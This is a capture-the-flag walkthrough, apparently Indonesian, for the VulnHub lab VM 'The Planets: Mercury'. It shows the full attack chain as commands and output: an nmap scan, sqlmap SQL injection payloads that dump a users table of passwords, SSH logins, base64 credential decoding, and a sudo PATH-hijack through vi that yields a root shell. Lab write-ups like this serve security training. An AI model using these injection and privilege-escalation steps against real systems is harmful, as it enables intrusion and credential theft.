



# Challenge Description

---

## About Release

- **Name:** The Planets: Mercury  
- **Date release:** 4 Sep 2020  
- **Author:** SirFlash  
- **Series:** The Planets  

---

## Download

> Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us.  
> Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for protecting yourself and your network.  
> If you understand the risks, please download!

- **File:** Mercury.ova (Size: 1.6 GB)  
- **Download:** [Google Drive](https://drive.google.com/file/d/1GkmkuZCXrSvSzTyXxQZfjpL-psqZF7Td)  
- **Mirror:** [VulnHub Mirror](https://download.vulnhub.com/theplanets/Mercury.ova)  

---

## Description

- **Difficulty:** Easy  

Mercury is an easier box, with no bruteforcing required.  
There are two flags on the box: a user and root flag which include an md5 hash.  

This has been tested on **VirtualBox** so may not work correctly on **VMware**.  

Any questions/issues or feedback please email me at: **SirFlash at protonmail.com**

---

## File Information

- **Filename:** Mercury.ova  
- **File size:** 1.6 GB  
- **MD5:** `A25F4235486E2D9AF38EAA0E1CA23D45`  
- **SHA1:** `91B9717448620AFB0ED0FCC106D914BC0D1924BF`  

---

## Virtual Machine

- **Format:** Virtual Machine (VirtualBox - OVA)  
- **Operating System:** Linux  

---

## Networking

- **DHCP service:** Enabled  
- **IP address:** Automatically assign  

---

# Walkthrough The Planets: Mercury

### Step 1: IP Scanning and Port Scanning

Pertama kita perlu mengetahui IP address dari mesin target. Kita bisa menggunakan perintah `sudo arp-scan -l` untuk menemukan IP address dari mesin target.

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:d4:54:92, IPv4: 192.168.56.105
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0b       (Unknown: locally administered)
192.168.56.100  08:00:27:76:70:74       (Unknown)
192.168.56.112  08:00:27:5a:ec:36       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.679 seconds (95.56 hosts/sec). 3 responded
```

Dari hasil di atas, kita mendapatkan IP address dari mesin target yaitu `192.168.56.112`. Selanjutnya kita akan melakukan port scanning menggunakan `nmap` untuk mengetahui port apa saja yang terbuka pada mesin target.

```bash
$ nmap -sC -sS -sV 192.168.56.112
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-28 23:02 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.112
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.8.2)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:5A:EC:36 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```

Dari hasil di atas, kita menemukan dua port yang terbuka pada mesin target yaitu port `22` (SSH) dan port `8080` (HTTP). Kita akan fokus pada port `8080` terlebih dahulu karena biasanya layanan web lebih mudah untuk dieksploitasi.

### Step 2: Enumerasi Layanan Web

Kita akan membuka layanan web pada port `8080` menggunakan browser. Setelah membuka `http://192.168.56.112:8080/robots.txt`, karena pada `nmap` ditemukan ada file `robots.txt`, kita menemukan isi dari file tersebut.

```
User-agent: *
Disallow: /
```

kemudian aku coba urlnya diganti menjadi `http://192.168.56.112:8080/*` dan menemukan tampilan seperti ini:



disitu bisa dilihat bahwa ada directory bernama `mercuryfacts/`. Kemudian aku mencoba untuk membuka `http://192.168.56.112:8080/mercuryfacts/` dan menemukan tampilan seperti ini:



kemudian aku langsung tertarik untuk melihat `Website Todo List: See list.` yang ada di halaman tersebut, dan menemukan tampilan seperti ini:



Disini ada kalimat `"Use models in django instead of direct mysql call"`. Walaupun aku tidak tau artinya, aku ingin mencoba menggunakan sqlmap.

### Step 3: SQL Injection dengan sqlmap

aku disini menggunakan `sqlmap` dengan command berikut untuk melihat database yang ada
:

```bash
$ sqlmap http://192.168.56.112:8080/mercuryfacts/ --dbs --batch
```

dan outputnya seperti ini

```bash
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.8#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:35:42 /2025-09-28/

[23:35:42] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[23:35:42] [INFO] resuming back-end DBMS 'mysql' 
[23:35:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.56.112:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x716a717871,(SELECT (ELT(9327=9327,1))),0x7171707171),9327)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.56.112:8080/mercuryfacts/(CASE WHEN (4644=4644) THEN SLEEP(5) ELSE 4644 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.56.112:8080/mercuryfacts/-9229 UNION ALL SELECT CONCAT(0x716a717871,0x55495042685863566c59614e734b51506f546e4374747477565972626d624f596755426f66657179,0x7171707171)#
---
[23:35:42] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:35:42] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[23:35:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.112'

[*] ending @ 23:35:42 /2025-09-28/

```

disitu kita melihat table ada 2 database yaitu `information_schema` dan `mercury`. kita akan fokus pada database `mercury`. selanjutnya kita akan melihat table apa saja yang ada di database `mercury` dengan command berikut:

```bash
$ sqlmap http://192.168.56.112:8080/mercuryfacts -D mercury --dump-all
```

dan outputnya seperti ini

```bash
        ___
       __H__                                                                                                                                      
 ___ ___["]_____ ___ ___  {1.9.8#stable}                                                                                                          
|_ -| . [,]     | .'| . |                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:39:18 /2025-09-28/

[23:39:18] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[23:39:19] [INFO] resuming back-end DBMS 'mysql' 
[23:39:19] [INFO] testing connection to the target URL
got a 301 redirect to 'http://192.168.56.112:8080/mercuryfacts/'. Do you want to follow? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.56.112:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x716a717871,(SELECT (ELT(9327=9327,1))),0x7171707171),9327)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.56.112:8080/mercuryfacts/(CASE WHEN (4644=4644) THEN SLEEP(5) ELSE 4644 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.56.112:8080/mercuryfacts/-9229 UNION ALL SELECT CONCAT(0x716a717871,0x55495042685863566c59614e734b51506f546e4374747477565972626d624f596755426f66657179,0x7171707171)#
---
[23:39:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:39:22] [INFO] fetching tables for database: 'mercury'
[23:39:22] [INFO] fetching columns for table 'users' in database 'mercury'
[23:39:22] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+

[23:39:22] [INFO] table 'mercury.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.112/dump/mercury/users.csv'
[23:39:22] [INFO] fetching columns for table 'facts' in database 'mercury'
[23:39:22] [INFO] fetching entries for table 'facts' in database 'mercury'
[23:39:22] [WARNING] reflective value(s) found and filtering out
[23:39:22] [INFO] resumed: 'Mercury does not have any moons or rings.','1'
[23:39:22] [INFO] resumed: 'Mercury is the smallest planet.','2'
[23:39:22] [INFO] resumed: 'Mercury is the closest planet to the Sun.','3'
[23:39:22] [INFO] resumed: 'Your weight on Mercury would be 38% of your weight on Earth.','4'
[23:39:22] [INFO] resumed: 'A day on the surface of Mercury lasts 176 Earth days.','5'
[23:39:22] [INFO] resumed: 'A year on Mercury takes 88 Earth days.','6'
[23:39:22] [INFO] resumed: 'It's not known who discovered Mercury.','7'
[23:39:22] [INFO] resumed: 'A year on Mercury is just 88 days long.','8'
Database: mercury                                                                                                                                
Table: facts
[8 entries]
+----+--------------------------------------------------------------+
| id | fact                                                         |
+----+--------------------------------------------------------------+
| 1  | Mercury does not have any moons or rings.                    |
| 2  | Mercury is the smallest planet.                              |
| 3  | Mercury is the closest planet to the Sun.                    |
| 4  | Your weight on Mercury would be 38% of your weight on Earth. |
| 5  | A day on the surface of Mercury lasts 176 Earth days.        |
| 6  | A year on Mercury takes 88 Earth days.                       |
| 7  | It's not known who discovered Mercury.                       |
| 8  | A year on Mercury is just 88 days long.                      |
+----+--------------------------------------------------------------+

[23:39:22] [INFO] table 'mercury.facts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.112/dump/mercury/facts.csv'
[23:39:22] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[23:39:22] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.112'

[*] ending @ 23:39:22 /2025-09-28/
```

disini kita bisa melihat password dan username, bisa dicoba menggunakan ssh, karena port 22/ssh dibuka. `ssh username@192.168.56.112` kemudian input password.

Setelah aku coba semua user dan password, yang bisa hanya:

```bash
$ ssh webmaster@192.168.56.112
```

setelah masuk, kemudian mgencek isi dari directory yang ada sekarang, ternyata mendapatkan user flag.

```bash
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt

webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

kemudian aku menemukan user dan password baru, yaitu `linuxmaster` yang ternyata bisa di ssh.

```bash
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

disitu terlihat seperti base64, jadi langsung aja decode dan login menggunakan hasil decode itu.

```bash
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

login ssh

```bash
$ ssh linuxmaster@192.168.56.112
linuxmaster@192.168.56.112's password: 

linuxmaster@mercury:~$ 
```

disini aku mencoba `sudo su` untuk login menjadi super user, ternyata tidak bisa, kemudian aku lanjut menggunakan `sudo -l` dan terdapat clue disini

```bash
linuxmaster@mercury:~$ sudo su
[sudo] password for linuxmaster: 
Sorry, user linuxmaster is not allowed to execute '/usr/bin/su' as root on mercury.
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

kemudian langsung saja aku membuat shortcut menggunakan command `ln`, kemudian diarah ke `/bin/vi`. Dan membuat `PATH (pwd)`.

```bash
linuxmaster@mercury:~$ ln -s /usr/bin/vi tail
linuxmaster@mercury:~$ l
tail@
linuxmaster@mercury:~$ export PATH=$(pwd):$PATH
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

maka akan terbuka `vi` nya, kemudian ketik `:!/bin/bash` untuk mendapatkan shell root. Fungsi `!` adalah untuk menjalankan perintah shell menggunakan root dari dalam `vi`.

dan dapatlah shell root.

```
root@mercury:/home/linuxmaster#
```

kemudian langsung saja masuk ke `/root` dan mendapatkan root flag.

```bash
root@mercury:/home/linuxmaster# cd /root
root@mercury:~# ls
root_flag.txt
root@mercury:~# cat root_flag.txt
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

Selamat kamu sudah mendapatkan user flag dan root flag. Later for next explanation bro 🥀💔.